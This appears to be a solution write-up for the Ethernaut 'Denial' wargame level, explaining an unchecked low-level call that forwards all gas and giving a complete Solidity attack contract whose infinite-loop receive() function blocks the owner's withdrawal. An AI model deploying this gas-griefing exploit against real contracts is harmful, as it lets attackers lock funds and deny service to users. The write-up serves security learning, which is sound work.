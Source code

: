 # Level 20: [Denial](https://ethernaut.openzeppelin.com/level/0xD0a78dB26AA59694f5Cb536B50ef2fa00155C488)

## Level objectives:
Deny the owner from withdrawing.
## Analysis
```solidity
partner.call{value:amountToSend}("");
payable(owner).transfer(amountToSend);
```
- The contract transfer to us before transferring to the owner.
- It also doesn't check the return value of `call`.
- Also, `call` forwards all available gas to the call, unless specified.
- So if we can get the call to "hang" when it sends us ether, we'll finish the gas, so it won't have any gas left to power the next tx.

## Code:
```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Denial {
    function setWithdrawPartner(address) external;
}

contract AttackDenial {
    constructor() {
        Denial(0x06f30d2256f4a7D537Ea0e47823f687ea8a6bff3).setWithdrawPartner(address(this));
    }
    
    receive() external payable {
        while (true) {}
    }
}
```

